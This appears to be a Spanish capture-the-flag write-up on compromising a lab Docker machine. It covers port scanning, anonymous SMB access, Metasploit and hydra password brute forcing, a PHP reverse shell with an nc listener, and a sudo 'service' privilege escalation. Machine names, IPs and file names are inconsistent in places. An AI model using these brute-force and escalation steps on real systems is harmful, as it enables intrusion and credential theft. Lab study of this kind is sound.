

# 🧠 **Informe de Pentesting – Máquina: Allien**

### 💡 **Dificultad:** Fácil


---

## 📝 **Descripción de la máquina**

La máquina vulnerable **Backend** simula un entorno real donde un servidor web mal configurado expone una aplicación con una página de login vulnerable a **inyección SQL**. A partir de esta vulnerabilidad, el atacante puede acceder a la base de datos y obtener credenciales de usuarios, lo que abre la puerta para conectarse vía **SSH** y escalar privilegios localmente explotando binarios mal configurados con **permisos SUID**.

---

## 🎯 **Objetivo**


---

## ⚙️ **Despliegue de la máquina**

Se descarga el archivo comprimido de la máquina vulnerable y se lanza el contenedor Docker mediante el script incluido:

```bash
unzip backend.zip
sudo bash auto_deploy.sh allien.tar
```


---

## 📡 **Comprobación de conectividad**

Verificamos que la máquina se encuentra activa respondiendo a peticiones ICMP (ping):

```bash
ping -c1 172.17.0.3
```


---

## 🔍 **Escaneo de Puertos**

Realizamos un escaneo completo para detectar todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

**Puertos detectados:**

22/tcp
80/tcp 
139/tcp 
445/tcp  


Luego, analizamos los servicios y versiones asociados a esos puertos:

```bash
nmap -sCV -p22,80 172.17.0.3 -oN target.txt
```


---

Al entrar en http://172.17.0.2 podemos ver una pagina para iniciar sesion


Realice fuzzing con gobuster y se encontraron unos directorios pero sin una explotacion
/info.php             
/index.php            
/productos.php        


Se procede a buscar alguna vulnerabilidad en los otros puertos y ver buscar alguna explotacion en su servicio, use el comando `enum4linux 172.17.0.3` y se utiliza para recopilar información sobre servicios SMB en una máquina. 
Detecta usuarios, grupos, políticas de contraseñas, dominios, recursos compartidos y configuraciones del servidor. Es útil en pentesting para identificar posibles vectores de ataque en entornos Windows o Samba desde una IP específica, 
sin credenciales. Además el escaneo SMB, reveló nombres de usuarios como *administrador* y *satriani7*, recursos compartidos como *myshare*, y que Samba permite sesiones anónimas. 
También mostró políticas de contraseñas débiles, grupos BUILTIN, y detalles del dominio *ESEEMEB.DL*. Esto indica una posible exposición a ataques por usuarios y servicios mal configurados en la red objetivo.


Use el comando smbclient -L //172.17.0.3/ -N enumera los recursos compartidos de la máquina 172.17.0.3 usando SMB sin autenticación (-N evita pedir contraseña). El resultado indica que el inicio de sesión anónimo fue exitoso y muestra los recursos disponibles:

    myshare: Carpeta compartida sin restricciones (acceso anónimo posible).

    backup24: Carpeta privada (probablemente requiere autenticación).

    home: Carpeta de producción (también protegida).

    IPC$: Recurso especial usado para comunicaciones internas de SMB.

El error final muestra que el cliente intentó usar el protocolo SMB1 para listar el grupo de trabajo, pero el servidor no lo permite, lo que impide ver esa información adicional. Aun así, ya se identificaron recursos accesibles y protegidos.


Use este comando:

```bash
smbclient //172.17.0.3/myshare -N
```

que conecta de forma anónima al recurso compartido **myshare** en el servidor **172.17.0.3** usando SMB. La conexión fue exitosa sin necesidad de usuario ni contraseña. 
Dentro del recurso se ejecutó el comando `ls`, que mostró el archivo **access.txt**.

Luego, se utilizó `get access.txt` para descargarlo correctamente. Esto confirma que **myshare** permite lectura anónima y que el archivo puede contener información sensible o útil, como credenciales, rutas o pistas para avanzar en el pentesting.


Para decodificar el contenido codificado en Base64 dentro del archivo `access.txt`, utilicé el comando `cut -d '.' -f2 access.txt | tr '_-' '/+' | base64 -d`. Primero, con `cut -d '.' -f2` extraje la segunda parte del token JWT (payload), 
que está codificada en Base64URL y separada por puntos. Luego, con `tr '_-' '/+'`, convertí la codificación Base64URL a Base64 estándar para que sea compatible con la herramienta `base64`. Finalmente, con `base64 -d`, decodifiqué 
el contenido para obtener un JSON legible con datos como email, rol, y claves públicas. Así se accede a información codificada en tokens JWT. y encontre un usuario: satriani7


Se configura el módulo `auxiliary/scanner/smb/smb_login` en Metasploit para hacer fuerza bruta SMB contra la IP 172.17.0.3, con el usuario `satriani7`. 
Defini la lista de contraseñas `rockyou.txt` y el puerto 445. Al ejecutar, el módulo intentó varias contraseñas y encontró que la correcta para `satriani7` es **50cent**. 
Esto significa que ahora puedes acceder al servicio SMB con esas credenciales, facilitando posteriores ataques o acceso al sistema.

msfconsole
use auxiliary/scanner/smb/smb_login
set RHOSTS 172.17.0.3
set USERNAME satriani7
set PASS_FILE /usr/share/wordlists/rockyou.txt
set RPORT 445
run


Elegí el recurso compartido backup24 porque es un recurso SMB accesible y potencialmente contiene datos importantes. Usé el comando smbclient //172.17.0.3/backup24 -U satriani7 para conectarme con el usuario y la contraseña obtenidos. 
Luego, con ls exploré los directorios, navegando a Documents/Personal con cd Documents y cd Personal. Finalmente, descargué archivos sensibles con get credentials.txt y get notes.txt. 
Estos pasos permitieron acceder y extraer información valiosa para continuar la auditoría en el sistema comprometido.


En credentials.txt se encontraron varias credenciales posiblemte para acceder al servicio de SSH


Cree 2 .txt uno de usuarios.txt y contraseña.txt y use hydra -L usuarios.txt -P contraseña.txt ssh://172.17.0.3 -t 4 donde encontre que puedo acceder a SSH con las credenciales: 
[22][ssh] host: 172.17.0.3   login: administrador   password: Adm1nP4ss2024


Me conecté vía SSH usando `ssh administrador@172.17.0.3`, aceptando la clave del host. 
Verifiqué permisos con `sudo -l` (sin privilegios) y navegué a `/var/www/html` con `cd /var/www/html` y `ls -la`. Cambié la variable `TERM` para usar nano: `export TERM=xterm`, luego edité `revellshell.php` con `nano revellshell.php`. 
En ese archivo (disponible en el repositorio, carpeta `exploit`) se colocó un código PHP para reverse shell que conecta al atacante y redirige el shell remoto. Así se consigue control remoto desde el servidor comprometido.


Nos ponemos en modo escucha: sudo nc -lvnp 443 y ejecutamos el php llendo a url: http://172.17.0.3/evellshell.php 


Se obtuvo una reverse shell como www-data tras cargar el archivo revellshell.php en /var/www/html/, con el código alojado en la carpeta exploit del repositorio. En el sistema comprometido, al ejecutar sudo -l, se descubrió que el usuario www-data podía ejecutar /usr/sbin/service como root sin contraseña. Se aprovechó esta configuración para escalar privilegios ejecutando:

sudo /usr/sbin/service ../../bin/bash

Esto inició una shell como root, confirmada con whoami. La vulnerabilidad reside en permisos de sudo mal configurados.

